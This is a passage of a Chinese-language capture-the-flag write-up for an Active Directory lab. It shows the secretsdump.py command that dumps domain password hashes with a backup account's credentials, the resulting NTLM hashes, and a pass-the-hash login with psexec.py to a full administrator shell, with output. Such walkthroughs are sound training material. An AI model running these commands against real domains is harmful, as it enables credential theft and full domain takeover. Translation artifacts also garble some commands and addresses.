 CyberChef Base64 解码凭证。

# 域权限提升

根据挑战描述，备份帐户具有唯一权限，允许**所有活动目录更改与此用户帐户同步，**包括密码哈希。我们可以在 Impacket 中使用一个名为“ **secretsdump.py** ”的工具来检索这个用户帐户(与域控制器同步)必须提供的所有密码哈希。

```
python3 secretsdump.py spookysec.local/backup:'backup2517860'[@10](http://twitter.com/10).10.25.158 -just-dc
```

“ **secretsdump.py** ”使用 DRSUAPI 方法获取 NTDS。DIT 秘密。

> Ntds。dit 文件是存储 Active Directory 数据的数据库，包括有关用户对象、组和组成员的信息。重要的是，该文件还存储了域中所有用户的密码散列。

这个工具为 DC 机器上的所有用户转储 NTLM 散列。

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::.....etc.....
```

# 传递哈希(PtH)攻击

一种攻击方法是**Pass Hash**攻击，它可以让我们在没有密码的情况下验证用户身份。

> 传递哈希攻击是一种技术，攻击者通过这种技术捕获密码哈希(相对于密码字符)，然后简单地传递它以进行身份验证，并可能横向访问其他网络系统。

有多种工具可以用来执行 pass hash 攻击，包括 **Evil-WinRM** 、 **crackmapexec** 和 **psexec.py** 。我很难让 Evil-WinRM 工作，但能够使用 psexec.py 获得一个带有管理员 NTLM 哈希的 shell。

```
python3 psexec.py Administrator@10.10.25.158 -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fcImpacket v0.9.24 - Copyright 2021 SecureAuth Corporation[*] Requesting shares on 10.10.200.95.....
[*] Found writable share ADMIN$
[*] Uploading file eanlOsfQ.exe
[*] Opening SVCManager on 10.10.200.95.....
[*] Creating service GzYy on 10.10.200.95.....
[*] Starting service GzYy.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1490]
(c) 2018 Microsoft Corporation. All rights reserved.C:\Windows\system32>
```

从这里，我可以有效地完全控制 AD 域，并可以检索所有三个标志。

![](img/ec7a2bcaad80fba209b829c3244ea9db.png)

用户标志。
